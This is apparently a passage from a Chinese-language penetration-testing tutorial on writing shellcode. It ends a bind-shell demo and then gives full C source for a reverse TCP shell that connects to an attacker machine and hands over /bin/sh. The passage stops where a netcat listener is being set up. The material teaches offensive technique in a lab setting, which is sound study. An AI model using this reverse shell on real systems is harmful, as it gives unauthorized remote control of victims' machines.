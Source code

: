 现在，它已连接并等待我们的命令；让我们试试：

```
$ cat /etc/issue
```

前面命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00215.gif)

现在我们有了我们的第一个真正的 shellcode！

# 反向 TCP shell

在本节中，我们将创建另一个有用的 shellcode，即反向 TCP shell。反向 TCP shell 是绑定 TCP 的相反，因为受害者的机器再次建立与攻击者的连接。

首先，在 C 代码中让我们看一下它：

```
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h> 

int main(void)
{
    int sockfd;
    int port = 1234;
    struct sockaddr_in mysockaddr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    mysockaddr.sin_family = AF_INET;
    mysockaddr.sin_port = htons(port);
    mysockaddr.sin_addr.s_addr = inet_addr("192.168.238.1");

    connect(sockfd, (struct sockaddr *) &mysockaddr,
    sizeof(mysockaddr));

    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
    return 0;
}
```

首先，我们将在我们的受害者机器之一（Ubuntu）上编译并执行它。我们将在攻击机器（Kali）上设置一个监听器，然后 shell 将从 Ubuntu 连接回 Kali，通过在代码中添加 Kali 的 IP。

在 Kali 上使用 `nc` 命令或 `netcat` 工具设置一个监听器：
